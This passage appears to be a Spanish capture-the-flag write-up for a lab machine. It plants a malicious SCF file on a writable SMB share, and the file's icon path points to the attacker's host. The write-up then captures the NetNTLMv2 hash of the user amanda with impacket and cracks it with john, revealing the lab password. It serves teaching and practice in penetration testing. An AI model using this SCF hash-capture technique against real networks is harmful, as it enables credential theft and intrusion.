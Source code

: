 En Public, tengo todos los permisos, así que podría subir un archivo SCF malicioso que trate de cargar un recurso compartido a nivel de red que esté alojado de mi lado, de tal manera que al haber una autenticación pueda ver un hash NetNTLMv2 que puede tratar de crackear para obtener una contraseña.

Este fichero tiene la siguiente estructura

```null
cat malicious.scf
[Shell]
Command=2
IconFile=\\10.10.16.6\shared\pwned.ico
[Taskbar]
Command=ToggleDesktop

```

Creo una montura para subir el archivo

```null
mkdir /mnt/Sizzle
mount -t cifs "//10.10.10.103/Department Shares/Users" /mnt/Sizzle
cd /mnt/Sizzle/Users/Public
```

Con impacket-smbserver creo el recurso compartido y obtengo el hash

```null
smbserver.py shared $(pwd) -smb2support
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.103,57905)
[*] AUTHENTICATE_MESSAGE (HTB\amanda,SIZZLE)
[*] User SIZZLE\amanda authenticated successfully
[*] amanda::HTB:aaaaaaaaaaaaaaaa:58bb29cde621cff6c8912c3aa8b0464f:010100000000000080229ccbcf2cd901f67e9394b1ed25b6000000000100100047007a004a00440065007000770067000300100047007a004a0044006500700077006700020010005200500058004d005a00780068006100040010005200500058004d005a007800680061000700080080229ccbcf2cd90106000400020000000800300030000000000000000100000000200000138b99707d23fb5783ca3fc2058fc93fed24cddeef9c98313b4a2c4211f17df10a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003600000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:shared)
[*] Disconnecting Share(2:shared)
```

Lo almaceno en un fichero temporal para crackearlo y obtengo una contraseña

```null
john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Ashare1972       (amanda)     
1g 0:00:00:04 DONE (2023-01-20 13:06) 0.2028g/s 2315Kp/s 2315Kc/s 2315KC/s Ashiah08..Ariel!
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
